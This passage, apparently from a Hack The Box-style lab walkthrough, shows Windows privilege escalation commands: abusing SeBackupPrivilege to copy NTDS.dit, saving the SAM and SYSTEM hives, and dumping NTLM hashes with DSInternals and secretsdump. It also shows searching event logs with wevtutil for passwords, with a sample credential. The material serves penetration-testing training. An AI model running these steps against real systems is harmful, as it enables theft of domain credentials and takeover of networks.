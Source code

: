 ##### Copying NTDS.dit Locally

Next, we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.

```powershell
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

##### Backing up SAM and SYSTEM Registry Hives

The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`

``` batch
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```
##### Extracting Credentials from NTDS.dit - DSInternals

Let's obtain the NTLM hash for just the `administrator` account for the domain using `DSInternals`.

```powershell
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

##### Extracting Credentials from NTDS.dit - SecretsDump

```shell-session
PrinceAli1@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
### Event Log Readers

#### Password Searching In Logs

```cmd
PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"

Process Command Line:   net use T: \\fs01\backups /user:tim MyStr0ngP@ssword
```

We can also specify alternate credentials for `wevtutil` using the parameters `/u` and `/p`.

``` batch
C:\htb> wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

